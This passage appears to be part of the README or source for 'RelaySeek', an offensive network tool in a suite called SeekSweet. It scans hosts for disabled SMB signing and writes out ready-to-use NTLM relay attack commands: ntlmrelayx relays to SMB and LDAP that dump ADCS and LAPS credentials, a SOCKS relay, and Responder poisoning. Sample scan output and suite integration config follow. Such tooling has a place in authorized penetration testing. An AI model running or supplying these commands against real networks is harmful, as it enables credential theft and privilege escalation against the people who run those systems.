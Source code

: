 ```python
    cmd = ['nmap', '-p445', '--script', 'smb2-security-mode', ip]

def generate_relay_targets(hosts: List[dict]) -> None:
    """Generate relay target list"""
    with open('relay_targets.txt', 'w') as f:
        for host in hosts:
            if host['relay_vulnerable']:
                f.write(f"{host['ip']}\n")

def generate_attack_commands(relay_targets: str) -> None:
    """Generate ready-to-use attack commands"""
    commands = [
        f"# SMB Relay Attack Commands\n",
        f"# Generated: {datetime.now()}\n\n",
        
        f"# 1. Basic SMB Relay\n",
        f"impacket-ntlmrelayx -tf {relay_targets} -smb2support\n\n",
        
        f"# 2. Relay to LDAP (dump credentials)\n",
        f"impacket-ntlmrelayx -t ldap://DC_IP --dump-adcs --dump-laps\n\n",
        
        f"# 3. Relay with SOCKS proxy\n",
        f"impacket-ntlmrelayx -tf {relay_targets} -socks -smb2support\n\n",
        
        f"# 4. Responder poisoning\n",
        f"sudo responder -I eth0 -wrf\n"
    ]
    
    with open('relay_commands.txt', 'w') as f:
        f.writelines(commands)
```

#### Integration with SeekSweet
```python
# Add to SEEK_TOOLS
{
    'id': 15,
    'name': 'RelaySeek',
    'script': 'relayseek/relayseek.py',
    'priority': 'CRITICAL',
    'phase': 'Authentication',
    'description': 'Detect SMB relay vulnerabilities and signing status',
    'why': 'Identify relay attack opportunities - critical for privilege escalation',
    'outputs': ['relay_targets.txt', 'smb_signing_report.txt', 'relay_commands.txt'],
    'typical_args': '-f iplist.txt -v'
}
```

#### Expected Output
```
[+] Scanning 254 hosts for SMB signing status...

[!] RELAY VULNERABLE HOSTS (Signing Disabled/Not Required):
    192.168.1.10 - WORKSTATION01 - SMBv2 - Signing: Disabled
    192.168.1.15 - WORKSTATION02 - SMBv2 - Signing: Enabled (not required)
    192.168.1.20 - FILE-SERVER01 - SMBv2 - Signing: Enabled (not required)

[+] RELAY RESISTANT HOSTS (Signing Required):
    192.168.1.5 - DC01 - SMBv3 - Signing: Required
    192.168.1.6 - DC02 - SMBv3 - Signing: Required

[+] Results:
    Total Hosts: 254
    Relay Vulnerable: 45 (17.7%)
```